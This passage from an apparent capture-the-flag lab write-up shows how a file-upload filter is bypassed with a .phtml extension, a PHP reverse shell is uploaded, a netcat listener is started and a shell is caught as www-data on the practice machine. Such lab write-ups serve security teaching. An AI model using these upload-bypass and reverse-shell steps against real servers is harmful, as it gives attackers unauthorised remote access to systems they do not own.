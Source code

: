 The results will all return a `200` status code which is to be expected, seeing as there is a valid server response, however that is not of much use for our purposes - The response length however is definitely a useful hint:

![image](https://user-images.githubusercontent.com/14150485/173316855-b14d9a13-de8c-448c-949f-19112f627b9a.png)

The `.phtml` extension has a smaller response length, since there is no error returned, and should therefore be allowed on the server.

Download the reverse shell as instructed on the task, edit the local IP and port values and save the file with a `.phtml` extension before uploading it on the target.

<br />
<br />

## 3. Privilege escalation

<br />

We start a `netcat` listener on our local machine using the port number specified on the reverse shell script.

```
╭─root@kali ~  
╰─➤  nc -lvnp 4524
listening on [any] 4524 ...
```

<br />

The script file we uploaded on the target machine is located under the `/internal/uploads` folder:

```
http://TARGET_IP:TARGET_PORT/internal/uploads/
```

<br />

Clicking on the file establishes connection to the machine.

```
╭─root@kali ~  
╰─➤  nc -lvnp 4524
listening on [any] 4524 ...
connect to [LOCAL_IP] from (UNKNOWN) [10.10.46.142] 42416
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:30:19 up  1:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

<br />

Although not mandatory, my preference is to stabilize shells to avoid accidental loss of access. The target machine seems to have `python` installed which makes this easy for us.
